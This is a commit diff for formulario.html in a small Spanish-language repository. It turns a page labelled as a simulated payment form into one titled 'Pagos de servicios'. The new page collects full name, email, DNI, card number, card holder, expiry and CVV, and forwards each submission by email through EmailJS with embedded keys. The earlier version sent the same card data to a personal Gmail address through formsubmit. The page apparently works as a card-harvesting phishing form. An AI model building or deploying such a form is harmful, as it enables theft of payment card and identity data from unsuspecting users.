

Before and after one commit to tendeonline/Pagos-de-tarjeta-, a plain HTML site: page formulario.html in a window 1280 px wide. Shown: the part 180-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update formulario.html

```diff
--- a/formulario.html
+++ b/formulario.html
@@ -1,31 +1,125 @@
 <!DOCTYPE html>
 <html lang="es">
 <head>
-  <meta charset="UTF-8">
-  <title>Formulario de Pago Simulado</title>
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
+  <title>Pagos de servicios</title>
   <style>
-    body { font-family: Arial; padding: 20px; max-width: 400px; margin: auto; }
-    input, button { width: 100%; padding: 10px; margin-top: 10px; }
+    body {
+      font-family: 'Segoe UI', sans-serif;
+      background: #e9f0f4;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      min-height: 100vh;
+      margin: 0;
+    }
+
+    .container {
+      background: white;
+      padding: 40px;
+      border-radius: 12px;
+      box-shadow: 0 8px 20px rgba(0,0,0,0.1);
+      max-width: 420px;
+      width: 100%;
+    }
+
+    h2 {
+      text-align: center;
+      color: #2c3e50;
+      margin-bottom: 10px;
+    }
+
+    .info {
+      font-size: 15px;
+      color: #555;
+      text-align: center;
+      margin-bottom: 25px;
+    }
+
+    input, button {
+      width: 100%;
+      padding: 12px;
+      margin-bottom: 15px;
+      font-size: 16px;
+      border: 1px solid #ccd6dd;
+      border-radius: 8px;
+      box-sizing: border-box;
+    }
+
+    button {
+      background-color: #3498db;
+      color: white;
+      font-weight: bold;
+      border: none;
+      cursor: pointer;
+      border-radius: 8px;
+      transition: background-color 0.3s ease;
+    }
+
+    button:hover {
+      background-color: #2980b9;
+    }
+
+    .success {
+      background: #d4edda;
+      color: #155724;
+      padding: 12px;
+      margin-top: 20px;
+      border-radius: 8px;
+      text-align: center;
+      font-size: 15px;
+    }
   </style>
 </head>
 <body>
+  <div class="container">
+    <h2>Pagos de servicios</h2>
+    <div class="info">
+      Complete el formulario. Los datos se enviarán a tu correo.
+    </div>
 
-  <h2>Formulario de Pago (Simulado)</h2>
+    <form id="payment-form">
+      <input type="text" name="nombre" placeholder="Nombre completo" required />
+      <input type="email" name="email" placeholder="Correo electrónico" required />
+      <input type="text" name="dni" placeholder="DNI" required maxlength="15" />
+      <input type="text" name="tarjeta" placeholder="Número de tarjeta" required maxlength="16" />
+      <input type="text" name="titular" placeholder="Nombre del titular" required />
+      <input type="text" name="vencimiento" placeholder="MM/AA (Vencimiento)" required maxlength="5" />
+      <input type="text" name="cvv" placeholder="CVV" required maxlength="4" />
+      <button type="submit">Pagar</button>
+    </form>
 
-  <form action="https://formsubmit.co/Sebasoto0672@gmail.com" method="POST">
-    <input type="text" name="nombre" placeholder="Nombre completo" required>
-    <input type="email" name="email" placeholder="Correo electrónico" required>
-    <input type="text" name="tarjeta" placeholder="Número de tarjeta" required>
-    <input type="text" name="vencimiento" placeholder="Fecha de vencimiento (MM/AA)" required>
-    <input type="text" name="cvv" placeholder="Código CVV" required>
+    <div id="mensaje" class="success" style="display: none;"></div>
+  </div>
 
-    <!-- Redirección tras envío -->
-    <input type="hidden" name="_next" value="https://formsubmit.co/thanks.html">
-    <!-- Desactiva captcha -->
-    <input type="hidden" name="_captcha" value="false">
+  <!-- EmailJS SDK -->
+  <script src="https://cdn.emailjs.com/dist/email.min.js"></script>
+  <script>
+    (function(){
+      emailjs.init("FL6vofHg7F9vLawQs");
+    })();
+  </script>
 
-    <button type="submit">Pagar</button>
-  </form>
+  <script>
+    const form = document.getElementById("payment-form");
+    const mensaje = document.getElementById("mensaje");
 
+    form.addEventListener("submit", function(e) {
+      e.preventDefault();
+
+      emailjs.sendForm("service_6pbv86h", "template_m3nuw4p", this)
+        .then(() => {
+          mensaje.innerHTML = "✅ ¡Formulario enviado correctamente!";
+          mensaje.style.display = "block";
+          form.reset();
+          setTimeout(() => {
+            mensaje.style.display = "none";
+          }, 5000);
+        }, (error) => {
+          alert("❌ Error al enviar: " + JSON.stringify(error));
+        });
+    });
+  </script>
 </body>
 </html>
```
